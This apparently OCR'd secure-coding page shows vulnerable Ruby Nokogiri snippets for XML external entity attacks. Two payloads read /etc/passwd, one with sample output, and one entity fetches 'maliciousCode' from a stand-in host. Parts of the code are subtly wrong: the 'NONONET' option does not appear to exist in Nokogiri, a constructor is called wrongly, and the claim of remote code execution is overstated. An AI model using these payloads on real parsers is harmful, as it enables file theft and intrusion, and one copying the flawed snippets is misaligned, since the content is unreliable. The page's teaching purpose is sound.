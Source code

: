 ```ruby
require 'nokogiri'

# Vulnerable code
xml = <<-EOX
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOX

# noent substitutes entities, unsafe when parsing XML
po = Nokogiri::XML::ParseOptions.new.huge.noent
doc = Nokogiri::XML::Document.parse(xml, nil, nil, po)
puts doc.root.text  # This will output the contents of /etc/passwd

##
# User Database
#
# Note that this file is consulted directly only when the system is running
...
```

### Nononet unsafe setting initialized, potential malware execution

```ruby
require 'nokogiri'

# Vulnerable code
xml = <<-EOX
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://untrustedhost.example.com/maliciousCode" >]>
<foo>&xxe;</foo>
EOX

# In this example we use `ParseOptions` but select insecure options.
# NONONET allows network connections while parsing which is unsafe, as is DTDLOAD!
options = Nokogiri::XML::ParseOptions.new(Nokogiri::XML::ParseOptions::NONONET, Nokogiri::XML::ParseOptions::DTDLOAD)

# Parsing the xml above would allow `untrustedhost` to run arbitrary code on our server.
# See the "Impact" section for more.
doc = Nokogiri::XML::Document.parse(xml, nil, nil, options)
```

### Noent unsafe setting set, potential file system leak

```ruby
require 'nokogiri'

# Vulnerable code
xml = <<-EOX
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
EOX

# setting options may also look like this, NONET disallows network connections while parsing safe
options = Nokogiri::XML::ParseOptions::NOENT | Nokogiri::XML::ParseOptions::NONET
```